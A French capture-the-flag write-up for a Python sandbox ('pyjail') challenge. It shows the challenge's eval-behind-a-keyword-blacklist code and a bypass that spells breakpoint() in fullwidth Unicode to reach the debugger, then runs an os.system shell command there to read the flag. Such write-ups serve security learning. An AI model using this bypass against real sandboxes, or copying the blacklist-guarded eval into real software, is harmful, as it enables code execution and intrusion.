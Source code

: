 
--- 

# Description du challenge : 

## Pyjail revenge

### 150

Conçu par Oblivios

Fini les payloads classiques, montre moi vraiment ce que tu peux faire pour contourner ça !

Le flag est situé dans `flag.txt`

`Connexion: nc intro.ctfrei.fr 4452`

--- 

> On a un fichier Python 

```python
#!/usr/local/bin/python3

  

blacklist = ["open", "os", "+", "{", "}", "help", "system", "subprocess", \

"lower", "import", "eval", "exec", "sys", "breakpoint", "getattr", \

"builtins","popen", "read", "input", "class", "chr", "ord", "flag", \

"dict", "globals", "update", "locals"]

  

def check_code(code):

if any([x in code for x in blacklist]):

return False

return True

  

def main():

# Je ban autant de mots pour vous

# forcer à trouver LE trick à utiliser

code = input(">>> ")

if check_code(code):

eval(code)

else:

print("Eh t'as utilisé un truc interdit là !")

  

if __name__ == "__main__":

main()
```

> Apres avoir essaye plein de commande pour contourner les mots interdits : 

```
Exemple : (lambda f: (f()._module.setitem(''.join([b'o', b'p', b'e', b'n']).decode(), None), f()._module[''.join([b'o', b'p', b'e', b'n']).decode()](''.join([b'f', b'l', b'a', b'g', b'.', b't', b'x', b't']).decode()).iter().next()) if len(f) > 0 else None)([x for x in (type([]).base.mro[1:]) if x._name_ == "catch_warnings"])
```

> J'étais dans une impasse. J'ai cherché sur internet des W-U de challenges Pyjail et je suis tombé sur ca : [https://jbnrz.com.cn/index.php/2024/08/15/pyjail/](https://jbnrz.com.cn/index.php/2024/08/15/pyjail/#header-id-39)

> J'ai compris qu'on pouvait bypass avec des commandes donc j'ai essayé : breakpoint() sauf que c'est bannit

> J'ai aussi compris que je pouvais utiliser un encodage différent pour bypass : 

> ｂｒｅａｋｐｏｉｎｔ()

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) help

Documented commands (type help <topic>):
========================================
EOF    c          d        h         list      q        rv       undisplay
a      cl         debug    help      ll        quit     s        unt
alias  clear      disable  ignore    longlist  r        source   until
args   commands   display  interact  n         restart  step     up
b      condition  down     j         next      return   tbreak   w
break  cont       enable   jump      p         retval   u        whatis
bt     continue   exit     l         pp        run      unalias  where

Miscellaneous help topics:
==========================
exec  pdb

(Pdb)
```

> Je vois que j'ai accès à **exec** alors je mets génère un payload : 

```python
exec("__import__('os').system('cat flag.txt')")
```

# Résultat : 

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) exec("__import__('os').system('cat flag.txt')")
CTFREI{d4mn_u_g0t_m3_pff}(Pdb)
```

> Flag  : CTFREI{d4mn_u_g0t_m3_pff}
